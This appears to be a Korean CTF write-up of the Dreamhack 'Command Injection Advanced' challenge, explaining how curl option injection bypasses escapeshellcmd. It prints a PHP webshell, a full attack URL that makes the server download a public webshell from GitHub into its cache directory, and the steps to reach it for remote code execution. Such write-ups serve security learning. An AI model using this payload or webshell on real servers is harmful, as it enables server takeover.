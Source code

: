 ```yaml
---
layout: post
title: "[드림핵][Lv.1] Command Injection Advanced 문제 풀이"
date:   2025-07-16 13:00:00 +0900
categories: [CTF & Writeups]
tags: [wargame, web, command-injection]
---
```


## 1. 개요 (Overview)

- **플랫폼 (Platform)**: 드림핵
- **문제 이름 (Challenge)**: Command Injection Advanced
- **분야 (Category)**: 웹해킹
- **문제 링크 (URL)**: [드림핵 워게임](https://dreamhack.io/wargame/challenges/413)


## 2. 문제 분석 (Problem Analysis)

```php
# 예시: app.py
// 1. 'url' 파라미터가 있는지 확인합니다.
if(isset($_GET['url'])){
    $url = $_GET['url'];

    // 2. URL이 'http'로 시작하는지 검사합니다.
    if(strpos($url, 'http') !== 0 ){
        die('http only !');
    }else{
        // 3. (취약점!) curl 명령어를 실행하여 URL 내용을 가져옵니다.
        $result = shell_exec('curl '. escapeshellcmd($_GET['url']));

        // 4. URL을 md5로 해시하여 캐시 파일 경로를 만듭니다.
        $cache_file = './cache/'.md5($url);

        // 5. 가져온 내용을 캐시 파일에 저장합니다.
        file_put_contents($cache_file, $result);

        // 6. 캐시 파일 링크와 결과를 화면에 출력합니다.
        echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
        echo '<pre>'. htmlentities($result) .'</pre>';
        return;
    }
}else{
    // 'url' 파라미터가 없으면 아무것도 하지 않습니다.
}
```

#### 웹 쉘 파일 
```php
    <?php
    // 'cmd' 라는 이름의 GET 파라미터로 받은 명령어를 실행하고 결과를 출력합니다.
    if(isset($_GET['cmd'])){
        system($_GET['cmd']);
    }
?>
```
- 또는 깃허브에 올라와 있는 webshell 이용  하는게 편함
- [깃허브 webshell](https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php)

<br>
---

### 1) 문제 해설
- 이 문제는 두가지 주요 취약점이 있다. 특히, 첫 번째 취약점은 서버 제어권을 탈취 당 할 수 있는 만큼 매우 치명적인 결함이다.
 

#### 1-1) 명령어 삽입을 통한 원격 코드 실행(RCE)
- scapeshellcmd() 함수는 ;(세미콜론), (or), &(and) 와 같은 쉘 메타 문자를 이스케이프하여 한 줄의 명령 안에서 새로운 명령어를 실행하지 못다로고 방지하는 역할을 한다.
- 이 함수는 명령어에 전달되는 인자 자체를 조작하는 것을 막지 못한다
- 그래서 **curl 명령어의 옵션을 url 파라미터에 전달함녀 잘못된 동작을 유발할** 수 있다.
- 대표적으로 scapeshellcmd() 함수는 하이픈(-)으로 하는 문자열을 막지 못한다.

**(1). 공격자 시나리오(웹쉘 업로드)**
- 공격자가 자신의 서버에 특정 월셀 코드가 들어간 shell.txt 파일을 준비한다.
- 공격자는 아래와 같은 조작된 url 파라미터를 서버로 전송한다.

```php
https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o ./cache/exploit.php
```

**가. 페이로드 분석**
- `https://raw.github.../webshell.php`: `curl`이 다운로드할 대상 파일이다.
- 위 파일은 GitHub에 공개된 원격 제어용 웹쉘이다.
- 이 부분은 `http`로 시작하여 `index.php`의 1차 방어 로직(`strpos($url, 'http')`)을 우회 하게 된다.
- `-o ./cache/exploit.php`: `curl`의 **파일 쓰기 옵션**으로, 다운로드한 `webshell.php`의 내용을 서버의 `./cache/` 디렉터리에 `exploit.php`라는 이름으로 저장하도록 한다.

<br>

**나. 공격 실행**
1. 공격자는 브라우저나 curl 도구를 통해 아래와 같이 조작된 URL을 타겟 서버에 요청한다.
~~~ HTTP
http://[타겟 서버 주소]/index.php?url=https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o ./cache/exploit.php
~~~

2. 요청 받은 index.php 는 내부적으로 다음과 같은 쉘 명령을 실행하게 된다.

~~~shell
curl https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o ./cache/exploit.php
~~~

3. 명령 실행 결과, Githubdp 있던 웹쉘 파일이 서버의 ./cache/exploit.php 경로에 성공적으로 생성된다.

<br>

**다. 원격 코드 실행(RCE)**
- 웹쉘 업로드가 완료되면, 공격자는 해당 파일에 직접 접근하여 서버 제어권을 획득 할 수 있다.

~~~python
http://[타겟 서버 주소]/cache/exploit.php
~~~

- 이제 이 웹수레을 통해, /flag 명령어를 입력하면 flag 값을 확인 할 수 있다.



